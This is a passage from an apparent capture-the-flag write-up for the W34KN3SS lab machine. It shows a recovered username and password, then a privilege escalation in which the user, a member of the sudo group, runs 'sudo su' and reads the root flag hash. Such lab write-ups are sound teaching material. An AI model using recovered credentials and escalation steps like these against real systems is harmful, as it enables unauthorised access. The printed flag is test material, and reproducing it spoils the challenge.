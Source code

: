 ```console
n30:dMASDNB!!#B!#!#33
```
    

## Privilege Escalation
### Sudoers Group

As we can see, n30 belongs to the sudoers group, so I ran the following command and entered the password and we get root.

```console
n30@W34KN3SS:~$ id
uid=1000(n30) gid=1000(n30) groups=1000(n30),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
n30@W34KN3SS:~$ sudo su
[sudo] password for n30: 
root@W34KN3SS:/home/n30# cd 
root@W34KN3SS:~# ls
root.txt
root@W34KN3SS:~# cat root.txt 
a1d2fab76ec6af9b651d4053171e042e
```
